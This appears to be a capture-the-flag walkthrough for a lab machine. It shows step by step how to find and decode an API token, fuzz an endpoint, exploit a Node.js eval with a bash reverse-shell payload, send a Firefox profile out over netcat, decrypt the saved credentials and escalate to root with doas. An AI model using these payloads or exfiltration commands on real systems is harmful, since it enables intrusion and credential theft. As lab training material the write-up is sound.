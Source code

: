 1) Wait about 5 minutes until the 'error 502' disappears and the page loads.

2) Open the `development tools` and open the  tag script`.

3) From the code below:

```

      function getAccess () {
        fetch ('/ api / ac ** ss')          <---------------------
          .then ((response) => response.json ())
          .then ((response) => {
            console.log (response);
          });
      }
    
```

We have endpoint to `first api`

4) We attach to the link `/api/ac ** ss` and the encoded  `token` appears:

```dGhpc **** 3RfcmVhbA ==```

5) You will immediately notice that the sequence looks familiar it is `base64`.

Go to, for example, this page: [base64_decode](base64decode.org/)

We enter  `encoded token` and get `decoded`:

```this_is _ * _ **```

6) Go back to the `main page` and go to the` development tools`.

We go to the `Cookies` tab and see the `token` set to the value of `value`, double click on it and change the value to `decoded token`.

After all this 'refresh the page' (f5)

7) Another page appears, go to the `debugger` tab.

On the left panel, open the `js` tab and click on the` script.js` file

```
  const container = document.getElementById ('items');
  await fetch ('/api/**')                               <------------------------
    .then ((response) => response.json ())
    .then ((response) => {
      response.sins.forEach ((element) => {

```

From the above code we can see another endpoint to the `next API`.

8) We append it to our `link` and intercept the `request` with e.g. the `burp` program in my example.

9) We do `send to reapeater` and we do` send`.

If unsuccessful `remove` from` Header request`:

```
    If-None-Match: W / "a9-0aR6bAfiK / DB + ***"

```

And everything should be working by now.

10) We check what queries the API `allows`.

We change `GET` to` OPTIONS`

```OPTIONS /api/i * HTTP / 1.1```

11) We see that we can do the following in this endpoint:

```GET, HEAD, POST```

12) We check possible parameters:

```wfuzz -c -z file, /usr/share/wordlists/common.txt -X POST --hh 45 -u http://<IP>/api/i*\?FUZZ\=test```

We see an eval function that should give us a lot to think about:

```
    ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60
```

13) We are interested in `POST`. We are looking for `NodeJs RCE eval` on the internet.

I used this site: [site](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)

There I have noticed the `exploit` it will use.

14) We change in `burp` parameter to `post` and add `?cmd=` and attach `exploit`:

```
    POST /api/i*?cmd=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261"') HTTP / 1.1
```

In the terminal, enter `nc -lvpn <PORT>`

And click `send`. We should have accessed the user `user`.

15) We go to the `/home/user` directory and see the `first flag`.

16) After cat the flag (`cat <file>`) we show all the files in the directory `ls -la`.

We may notice the hidden `.firefox` directory. We enter it `cd .firefox`.

We see what looks like the session directory `b5w4643p.default-release`.

17) We download to our machine: [Firefox_decrypt](https://github.com/unode/firefox_decrypt)

We pack sessions from the server `tar -cf archive.tar ./b*`.

Using [netcat](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/) we send the file to our computer.

On our computer, type: `nc -l -p 1234> ./archive.tar`.

And on the server: `nc -w 3 <IP> 1234 < ./archive.tar`.

18) Then with `firefox_decrypt` we decrypt the password to the user `v0id`:

```./firefox_decrypt.py ./( PATH TO DIRECTORY) b5w4643p.default-release```


After a while it appears to us:

```

    Website: https: //glitch.thm
    Username: 'v0id'
    Password: 'love_ *'


```

19) We switch to user `v0id` with `su v0id`.

If you see: `su: must be run from a terminal`. Enter: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. And then we try again.

20) With the command `doas` we increase our privileges to the user `root`.

```doas -u root  /bin/bash```

21) We go to the `/root` directory and get the `last flag`.
